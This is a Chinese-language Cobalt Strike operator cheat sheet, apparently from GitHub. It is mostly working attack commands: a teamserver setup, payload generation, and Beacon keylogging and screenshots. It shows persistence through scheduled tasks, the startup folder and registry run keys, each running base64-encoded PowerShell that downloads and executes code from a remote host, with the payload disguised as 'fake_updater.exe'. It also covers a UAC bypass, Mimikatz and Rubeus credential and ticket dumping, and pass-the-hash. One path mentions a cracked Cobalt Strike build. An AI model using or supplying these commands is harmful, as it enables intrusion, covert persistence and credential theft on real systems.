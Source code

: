 
# 基本
- **建立服务器（攻击者）:**
```bash
sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
sudo ./teamserver [Attack IP] [Set Password] [配置文件]
```

- **链接服务器（攻击者）：**
直接启动 Cobalt Strike 客户端然后输入凭据链接即可。


#### 被动信息收集
Attack > System Profiler
可以设置重定向，后复制网址到被攻击机器，访问后就可以得到机器的基本信息。


#### 设置监听器
**http** (出口监听器)
**dns** (出口监听器)
**smb (p2p)** ：  可以使用 `PS C: \> ls \\.\pipe\` 列出所有当前正在收听的管道以获取灵感。
比如说 `TSVCPIPE-7ca725ce-7220-489f-a9b5-d4cad2bc1337`
**tcp**
**tcp-local**


#### 生成有效载荷
在 Payloads 中选择 `Windows Stageless Generate All Payloads`，生成所有有效载荷, 执行 http_x64.exe 后即可收到回应。


#### 命令 (Beacon)
```
pwd   当前目录路径
sleep 5   更快的回应
ps
screenshot
keylogger  (View > Keystrokes)    (使用jobs可以查看任务，jobkill ID 可以杀死keylogger的job)
clipboard  （粘贴板内容）
net logons  (用户登录会话)
run wmic service get name, pathname  (每个服务的列表及其可执行文件的路径)
shell + CMD
execute-assembly C:\Users\13461\Desktop\KALI_Tools\Seatbelt.exe -group=system (https://github.com/GhostPack/Seatbelt)
getuid

```


#### 数据透视侦听器
作用为转发流量，隐藏活动等
在图像界面右键 Attack 然后 Pivoting > Listener, 创建 demo-pivot
生成有效载荷： Payloads > Windows Executable (Stageless), 选中刚刚创建的 demo-pivot , 生成后直接执行即可。


#### 主机持久性
https://github.com/mandiant/SharPersist (添加各种命令要用到的工具)
BASE 编码要执行的命令
```
Win: 
$str = 'IEX ((new-object net.webclient).downloadstring("http://192.168.55.128:80/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

Linux:
echo 'IEX ((new-object net.webclient).downloadstring("http://192.168.55.128:80/a"))' | iconv -t UTF-16LE | base64 -w 0
```

- 计划任务程序
```powershell
execute-assembly C:\Users\13461\Desktop\KALI_Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA1AC4AMQAyADgAOgA4ADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
```
`-t`: 持久化选项
`-c`: 执行的命令
`-a`: 命令的参数
`-n`: 任务的名称
`-m`: 添加任务(也可以 `remove`、`check` 和 `list`)
`-o`: 任务频率


- 启动文件夹
```powershell
execute-assembly C:\Users\13461\Desktop\KALI_Tools\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA1AC4AMQAyADgAOgA4ADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
```
`-f`: 另存为的文件名


- 注册表自动运行
```powershell
cd C:\ProgramData
upload C:\Users\13461\Desktop\CobaltSrike_4.9.1_Cracked_www.ddosi.org\Payloads\beacon_x64.exe
mv beacon_x64.exe fake_updater.exe
execute-assembly C:\Users\13461\Desktop\KALI_Tools\SharPersist.exe -t reg -c "C:\ProgramData\fake_updater.exe" -a "/q /n" -k "hkcurun" -v "fake_updater" -m add
```
`-k`: 修改的注册表项
`-v`: 创建的注册表项的名称


#### UAC Bypass / Mimikatz / Rubeus
- UAC Bypass
```bash
elevate uac-schtasks tcp-local (UAC bypass)
以高完整性运行
```

- Mimikatz 系列
```bash
beacon> mimikatz token::elevate ; lsadump::sam

也可以将 'token::elevate' 代替为 '!'
beacon> mimikatz !lsadump::sam (转储本地帐户的 NTLM 哈希)

beacon> mimikatz !sekurlsa::logonpasswords (转储内存中的NTLM明文密码)
beacon> mimikatz !sekurlsa::ekeys (转储当前登录用户的 Kerberos 加密密钥, AES256 密钥就是我们想要的密钥)
beacon> mimikatz !lsadump::cache  (域缓存凭证, MsCacheV2只能离线破解，需要格式化格式 $DCC2$<iterations>#<username>#<hash>)

(都会留下敏感资源的句柄)
```

- Rebeus
https://github.com/GhostPack/Rubeus
列出计算机上所有登录会话中的所有 Kerberos 票证
```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt [/nowrap (将Base64(key)格式化到一行,方便复制)] (获取TGT)
```
Rubeus 的 `dump` 命令将从内存中提取这些票证 - 但由于它使用 WinAPIs，因此不需要向 LSASS 打开可疑句柄。


# 域内技术
#### 枚举
PowerView
```bash
beacon> powershell Get-Domain [-Domain]（有用的信息包括域名、林名称和域控制）
beacon> powershell Get-DomainController [-Domain] | select Forest, Name, OSVersion | fl （返回当前域或指定域的域控制器）
beacon> powershell Get-ForestDomain [-Forest] (返回当前林或 `-Forest` 指定的林的所有域)
beacon> powershell Get-DomainPolicyData | select -expand SystemAccess (返回当前默认域策略)
beacon> powershell Get-DomainUser -Identity UserName -Properties DisplayName, MemberOf | fl
beacon> powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName (返回所有计算机或特定计算机对象)
beacon> powershell Get-DomainOU -Properties Name | sort -Property Name (OU)
beacon> powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName (组对象)
beacon> powershell Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName (组内用户)
beacon> powershell Get-DomainGPO -Properties DisplayName | sort -Property DisplayName （组策略对象）
```

SharpView
https://github.com/tevora-threat/SharpView
```
beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Release\SharpView.exe Get-Domain
```

#### Hash 传递
```bash
beacon> pth vuln 32ed87bdb5fdc5e9cba88547376818d4 (模拟hash会话)
beacon> rev2self (恢复会话)
```